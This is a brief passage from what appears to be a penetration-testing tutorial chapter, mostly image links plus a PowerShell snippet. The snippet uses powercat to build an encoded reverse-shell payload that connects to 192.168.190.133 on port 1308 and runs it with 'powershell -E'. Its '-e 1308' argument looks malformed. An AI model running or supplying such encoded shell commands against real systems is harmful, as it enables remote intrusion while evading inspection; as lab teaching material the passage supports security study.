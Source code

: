 ![](./img/Chapter4/40.png)

![](./img/Chapter4/37.png)

We also can use `-ge` option to generate a encoded payload that can be executed via `powershell -E`

```powershell
$command = powercat -c 192.168.190.133 -p 1308 -e 1308 -ge
powershell.exe -E $command
```

![](./img/Chapter4/41.png)
